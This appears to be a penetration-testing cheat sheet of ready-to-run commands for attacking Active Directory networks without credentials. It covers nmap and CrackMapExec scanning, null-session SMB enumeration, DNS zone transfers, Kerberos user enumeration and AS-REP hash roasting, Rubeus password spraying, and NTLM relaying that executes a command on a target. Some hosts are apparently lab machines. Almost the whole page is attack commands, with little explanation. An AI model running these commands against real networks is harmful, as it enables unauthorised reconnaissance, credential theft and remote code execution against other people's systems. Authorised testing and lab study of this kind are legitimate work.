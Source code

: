 # No Credentials

## No Credentials

## Network Scanning

### Scan Network

```
nmap -sP -p -Pn <ip>
nmap -Pn -sV --top-ports 50 --open <ip>
nmap -Pn --script-smb-vuln -p139,445 <ip>
nmap -Pn -sC -sV -oN <OutPutFile> <ip>
nmap -Pn -sC -sV -p- -oN <OutPutFile> <ip>
nmap -Pn -sU -sC -sV -oN <OutPutFile> <ip>
nmap -n -sV --script "ldap* and not brute" -p 389 <DC IP>
```

### SNMP Check

```
snmp-check 10.10.31.2 -c openview
```

### CME

<pre><code><strong>#Map Hosts
</strong><strong>cme smb 192.168.1.0/24
</strong><strong>
</strong><strong>#Map SMB hosts that DO NOT require signing
</strong>cme smb 192.168.1.0/24 --gen-relay-list relaylistOutputFilename.txt

#Enumerate Null Sessions
cme smb 10.10.10.161 -u '' -p ''
cme smb 10.10.10.161 --pass-pol
cme smb 10.10.10.161 --users
cme smb 10.10.10.161 --groups

#Enumerate Anonymous Login
cme smb 10.10.10.178 -u 'a' -p ''

#Extract Subnet
cme ldap &#x3C;ip> -u &#x3C;user> -p &#x3C;pass> -M get-network
cme ldap &#x3C;ip> -u &#x3C;user> -p &#x3C;pass> -M get-network -o ONLY_HOSTS=true
cme ldap &#x3C;ip> -u &#x3C;user> -p &#x3C;pass> -M get-network -o ALL=true
</code></pre>

### GoBuster

```
gobuster dns -d domain.local -t 25 -w /opt/Seclist/Discovery/DNS/subdomain-top2000.txt
```

### Find DC IP

```
nmcli dev show eth0 #Shows domain names and DNS
nslookup -type=SRV_ldap_tcp.dc_msdcs <domain>
```

### Zone Transfer

```
dig axfr @10.10.10.192 blackfield.local
dig @10.10.10.192 ForestDnsZones.BLACKFIELD.local
```

### LDAP Search

```
ldapsearch -H 10.10.10.192 -x -s base namingcontexts
```

### wfuzz vhost discovery

```
sudo wfuzz -c -f subdomains.txt -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://flight.htb/" -H "Host: FUZZ.flight.htb" --hl 154
```

### List Guest Access on SMB Share

```
enum4linux -a -u "" -p "" <dc-ip>
enum4linux -a -u "guest" -p "" <dc-ip>

smbmap -u "" -p "" -P 445 -H <dc-ip>
smbmap -u "guest" -p "" -P 445 -H <dc-ip>

smbclient -U "%" -L //<dc-ip>
smbclient -U "guest%" -L //<dc-ip>

cme smb <ip> -u "" -p ""
cme smb <ip> -u "a" -p ""
```

## Enumerate Users

### CME

<pre><code><strong>#Check for anon login
</strong><strong>cme smb domain.local  -u '' -p '' --users
</strong>cme smb domain.local  -u '' -p '' --users | awk '{print $4}' | uniq

#Check for users/groups and active sessions
cme smb 10.10.10.10 --users
cme smb 10.10.10.10 --groups 
cme smb 10.10.10.10 --groups --loggedon-users 

#Check if account exists without kerberos
cme ldap 192.168.1.0/24 -u users.txt -p '' -k

#Check for ASREPRoastable
cme ldap 192.168.0.104 -u user.txt -p '' --asreproast output.txt
</code></pre>

### Kerbrute

```
kerbrute userenum -d test.local usernames.txt
```

### Impacket

```
impacket-GetNPUsers -no-pass -dc-ip 10.10.10.192 blackfield.local
GetNPUsers.py -no-pass -usersfile names.txt -format hashcat -dc-ip 10.10.10.169 MEGABANK.LOCAL/
```

### NMAP

```
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN'" <IP>
Nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/Desktop/usernames.txt <IP>
```

### MetaSploit

```
msf> use auxiliary/gather/kerberos_enumusers
msf> use auxiliary/scanner/smb/smb_lookupsid
```

### SMBmap

```
python3 smbmap.py --host-file smb-hosts.txt -d test.local -L
```

### Rubeus

```
Rubeus.exe /users:usernames.txt /passwords:passwords.txt /domain:test.local /outfile:found_passwords.txt
```

### NTLMRelay

```
python3 ntlmrelayx.py -smb2support -t smb://10.10.10.1 -c 'whoami /all' -debug
```

